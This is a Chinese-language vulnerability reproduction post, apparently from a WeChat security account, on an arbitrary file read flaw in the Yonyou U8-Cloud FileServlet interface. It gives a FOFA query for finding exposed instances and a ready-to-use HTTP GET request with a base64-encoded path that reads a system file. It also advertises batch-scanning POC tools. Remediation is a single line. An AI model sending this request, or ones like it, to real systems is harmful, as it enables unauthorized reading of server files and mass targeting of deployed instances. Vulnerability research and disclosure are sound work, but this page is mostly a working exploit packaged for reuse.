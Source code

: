 #  用友U8-Cloud FileServlet接口存在任意文件读取漏洞   
南风徐来  南风漏洞复现文库   2024-04-01 23:12  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 用友U8-Cloud简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
用友U8 Cloud 提供企业级云ERP整体解决方案，全面支持多组织业务协同，实现企业互联网资源连接。U8 Cloud 亦是亚太地区成长型企业最广泛采用的云解决方案。  
## 2.漏洞描述  
  
U8 cloud 聚焦成长型、创新型企业的云 ERP，基于全新的企业互联网应用设计理念，为企业提供集人财物客、产供销于一体的云 ERP 整体解决方案，全面支持多组织业务协同、智能财务，人力服务、构建产业链智造平台，融合用友云服务实现企业互联网资源连接、共享、协同。该系统存在任何文件读取漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
用友U8-Cloud  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a6jsr6gWbK7LibLibibET6ICLdcEd6ibXmY33FreFQbiceO22wHndU3STxibvLgT3bEauA3OSgs2a159cg/640?wx_fmt=jpeg&from=appmsg "null")  
  
用友U8-Cloud FileServlet接口存在任意文件读取漏洞  
## 4.fofa查询语句  
  
app="用友-U8-Cloud"  
## 5.漏洞复现  
  
漏洞链接：http://127.0.0.1/service/~hrpub/nc.bs.hr.tools.trans.FileServlet?path=QzovL3dpbmRvd3Mvd2luLmluaQ==  
  
漏洞数据包：  
```
GET /service/~hrpub/nc.bs.hr.tools.trans.FileServlet?path=QzovL3dpbmRvd3Mvd2luLmluaQ== HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```  
  
QzovL3dpbmRvd3Mvd2luLmluaQ== 是C://windows/win.ini 的base64编码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a6jsr6gWbK7LibLibibET6ICLIIejOu6yk0pSaxZHWaomxibByrFfldkFibwvB9cu6HibjHE2iaiaO9SwIeA/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
关注公众号 南风漏洞复现文库 并回复 漏洞复现112 即可获得该POC工具下载地址：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a6jsr6gWbK7LibLibibET6ICL4bQk63DDAg0IbpYCWQHk3KCuQH6IgibpMVyuHCoGqIX6lsRJc6ysSQg/640?wx_fmt=jpeg&from=appmsg "null")  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a6jsr6gWbK7LibLibibET6ICLXzP4nK0ia0oa3xRh2EdfhLIGjqjl9e7YHKycwxS8JhiaxvUDprX1JCFQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a6jsr6gWbK7LibLibibET6ICL7myklJsNWEB6Y7569ox5o8FDgs6bYpPKopUyXYJU9aQ8IgkTHQ47vQ/640?wx_fmt=jpeg&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a6jsr6gWbK7LibLibibET6ICLr61RuKTkOwicwX4S3jJgGpX9SS62dFD1RfGd95klPdIu6zhITDZMkuA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a6jsr6gWbK7LibLibibET6ICLo0J6cyWYepX6QxnFYxrymcxsQU9moQrA130sFXvNukic0o3JcAU790A/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a6jsr6gWbK7LibLibibET6ICLkesicx57puCwGtenUDMUNhwVEVJWT4JpwKjhk691Bll35CRxH5ibb0Ng/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3a6jsr6gWbK7LibLibibET6ICLQgNp9odzpWEDKjLFF0jxiajXBXv67SE04ibeOCeDaqiaoa2KpFlj9ZlTQ/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
打补丁  
## 8.往期回顾  
  
[用友NC Cloud nc.bs.sm.login2.RegisterServlet接口存在SQL注入漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485943&idx=1&sn=2287057cc4406b125320ea4c2e730c80&chksm=974b84f0a03c0de6ff44c88c20b5dc22cb748234bdf640fefb12feb3815f17d97e071dc7fe64&scene=21#wechat_redirect)  
  
  
[大华DSS Digital Surveillance System系统login_login.action存在远程命令执行漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485929&idx=1&sn=a7b531bc8c31e30449d23fb2508bba27&chksm=974b84eea03c0df82ac99414eae0e5c93563e9fcabbad855714aff318adba1ab281ad73597c5&scene=21#wechat_redirect)  
  
  
  
  

